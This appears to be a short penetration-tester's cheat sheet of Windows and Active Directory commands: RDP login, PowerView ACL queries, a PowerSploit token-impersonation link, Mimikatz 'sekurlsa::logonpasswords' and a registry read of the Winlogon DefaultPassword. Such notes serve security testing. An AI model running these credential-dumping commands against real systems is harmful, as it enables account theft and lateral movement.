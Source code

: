rdate -n \<dc-ip\> ***Sync localtime with DC***
  
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share ***RDP***

$ErrorActionPreference= 'silentlycontinue' ***Hide Error in PowerShell***

Get-UserProperty -Properties logoncount | Where logoncount -ne 0 ***Filtering Powershell objects***

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} ***Filtering Powershell objects***

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1

Mimi: 
sekurlsa::logonpasswords
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword"
